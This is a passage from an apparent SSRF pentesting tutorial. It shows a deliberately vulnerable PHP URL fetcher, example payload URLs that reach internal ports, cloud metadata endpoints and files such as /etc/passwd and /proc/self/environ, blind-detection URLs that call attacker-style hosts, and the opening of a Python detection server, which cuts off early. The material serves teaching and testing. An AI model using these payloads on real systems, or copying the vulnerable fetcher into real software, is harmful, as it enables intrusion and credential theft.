 #### Example Vulnerable Code
```php
<?php
// Vulnerable URL fetcher
$url = $_GET['url'];
$response = file_get_contents($url);
echo $response;
?>
```

#### Basic SSRF Exploitation
```bash
# Access internal services
https://vulnerable-app.com/fetch.php?url=http://127.0.0.1:80
https://vulnerable-app.com/fetch.php?url=http://localhost:22
https://vulnerable-app.com/fetch.php?url=http://192.168.1.1:8080

# Access cloud metadata
https://vulnerable-app.com/fetch.php?url=http://169.254.169.254/latest/meta-data/
https://vulnerable-app.com/fetch.php?url=http://metadata.google.internal/computeMetadata/v1/

# File system access (if supported)
https://vulnerable-app.com/fetch.php?url=file:///etc/passwd
https://vulnerable-app.com/fetch.php?url=file:///proc/self/environ
```

### 2. 🕵️ Blind SSRF (No Direct Response)

The server makes the request but doesn't return the response to the attacker. Detection relies on side-channel methods.

#### Blind SSRF Detection Methods
```bash
# Time-based detection
# If internal service is slow to respond
https://vulnerable-app.com/fetch.php?url=http://internal-slow-service:80

# DNS-based detection
https://vulnerable-app.com/fetch.php?url=http://unique-id.attacker-domain.com

# HTTP log-based detection
https://vulnerable-app.com/fetch.php?url=http://attacker-server.com/ssrf-test

# Error-based detection
# Different error messages for different internal services
https://vulnerable-app.com/fetch.php?url=http://127.0.0.1:80    # Web server
https://vulnerable-app.com/fetch.php?url=http://127.0.0.1:22    # SSH
https://vulnerable-app.com/fetch.php?url=http://127.0.0.1:3306  # MySQL
```

#### Out-of-Band SSRF Detection
```python
#!/usr/bin/env python3
"""
SSRF Detection Server

Author: LetchuPKT (Lakshmikanthank)
Portfolio: https://letchupkt.vgrow.tech
"""

from http.server import HTTPServer, BaseHTTPRequestHandler
import json
import datetime

class SSRFHandler(BaseHTTPRequestHandler):
```